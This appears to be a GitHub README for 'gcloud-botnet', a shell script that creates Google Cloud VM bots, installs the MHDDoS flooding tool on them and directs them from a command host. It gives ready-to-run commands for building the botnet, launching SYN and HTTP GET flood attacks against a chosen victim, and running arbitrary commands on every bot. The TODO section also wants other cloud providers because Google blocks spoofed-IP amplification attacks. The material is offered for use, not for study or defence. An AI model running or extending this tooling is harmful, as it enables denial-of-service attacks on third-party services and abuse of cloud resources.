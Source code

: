 ## gcloud-botnet ##

### Description ###

This is a script that aids in managing a botnet in the  *Google Cloud Platform*. It allows to manipulate botnets of variable sizes, and do such things as create/destroy botnet, or run some command on all or part of a botnet. 


Currently you can treat it as a kind of a wrapper around `gcloud` and `MHDDoS` scripts, because it's implemented in this usage in mind, but you can easily tune it to your personal needs.


Here's its usage help, pretty self-explanatory:
``` text
Usage: ./botcc.sh [options...]
	-a, --all                 Run action on each bot in the botnet.
	-n, --num <num>           Run action on num random bots.
	-b, --bot <botname>       Run action on specified bot.
	-B, --botnet <botnet>     Specify botnet to act on.
	-d, --delete              Delete specified bots.
	-c, --create              Create some bots.
	-r, -C, --command <cmd>   Command to run on each bot.
	--attack <Layer:attack>   Run this MHDDoS attack on bots
	--victim <victim_spec>    Victim specification, like in MHDDoS
	-l, --list                List bots in selected botnet.
	--async                   Launch things asynchronously.
	-t,--no-tty               Don't allocate pty device
	-u, --user <user>         Run command on bot under the user.
	-S, --ssh-key-file <file> Connect to bot with this ssh key file.
	-z, --zone <zone>         (With -c only) Create bots in this zone
	-Z, --zone-file <file>    (With -c only) Create bots in zones, specified in the file.

	-v, --verbose             Make output more verbose.
	-q, --quiet               Be more quiet.
```

**WARNING:** Currently, user needs to setup `google api`, so that `gcloud` command is authorized to do things on user's account, in other words `gcloud` is usable and doesn't need no more configuration. See **Google API docs**.

### Create botnet ###

Example:

``` shell
./botcc.sh -c -n 10 -B test --async -v -z europe-west4-c
```

This command will create a botnet of size **10** bots in the botnet named *test*, located in the google zone *europe-west4-c*, verbosely and asynchronously. `-z` or `-Z` flags are optional, and allows users to create bots in specific geographical zones.

**Hint:** Use `--async` flag, because it really speeds up things, and the time needed to create a botnet, for example, decreases drastically. **But** be aware that remote commands won't produce any output to the screen, because underlying `ssh` process exits immediately after starting a process on the remote end. It's a type of compromise, since otherwise in an alternative implementation, a lot of `ssh` processes will hang on the *C&C* host, waiting in the background and consuming lots of the system's resources. Redirect command's `stdout` to a file in order to capture it.

This is how this command works internally:

1. Create a bot.
2. Copy **bot init script**(`bot_init.sh` by default) to the bot.
3. Run that script.

Bot initialization script is highly my personal taste, but long story short, it will install [MHDDoS](https://github.com/MatrixTM/MHDDoS "MHDDoS") script on a bot.

### List botnet ###

``` shell
./botcc.sh --list --quiet --all --botnet test
```

This command will list all of the bots owned by botnet *test*. Without `--quiet` flag it will also show associated with each bot google **zone**, in which it was created.

User can also specify `-n` option instead of `--all`, to just show **n** random bots, for whatever reason.

### Destroy botnet ###

It's how a user would remove the whole botnet named *test*.
``` shell
./botcc.sh -d -a -B test --async
```

Note that `-n` option can be specified instead of `-a` to remove **n** random bots.

### Start a DDoS attack ###

To run an attack, one would need to specify both `--attack` and `--victim` options.

The `--attack` option's format is "LAYER:ATTACK", where layer specifies **OSI** layer of the attack, and **ATTACK** specifies the name of an attack, as listed in the [MHDDoS](https://github.com/MatrixTM/MHDDoS/ "MHDDoS") documentation.

Example *1*: **syn** flood attack using 5 random bots from the botnet *test*

``` shell
./botcc.sh -n 5 -B test --attack L4:syn --victim 127.0.0.1:80 --async -v
```

Example *2*: **get** flood attack, using all bots of the botnet *test*

``` shell
./botcc.sh -a -B test --attack L7:get --victim http://127.0.0.1:80/index.html --async -v
```

No proxies will be used. If something doesn't suit user's needs, he can change underlying run command, or add another handler for **LAYER**, as an example.

### Run arbitrary command(not necessary DDoS attack) ###

That's how you would print load average of each of the bots

``` shell
./botcc.sh -a -r 'printf "hello from host $(hostname). Here is my uptime: $(uptime)\n"' -B test 
```

As with previous options, `-n` or `-a` option can be used to select on which bots of a botnet to run the command.

### TODO ###

  * Add something like an `--init` option, that will do all of the neccessary preparations of the *google cloud api* in a semi-automatic way and guide a user through the installation, so that user no longer needs to preconfigure his environment and read *google docs* before running this script. So much tasty feature that's still lacking :(
  * Add support for more cloud hosting providers. Can be useful, since google is dropping packets with spoofed source `IP` address, which is a crucial property restricting from usage of most of the **amplification** ddos attacks.
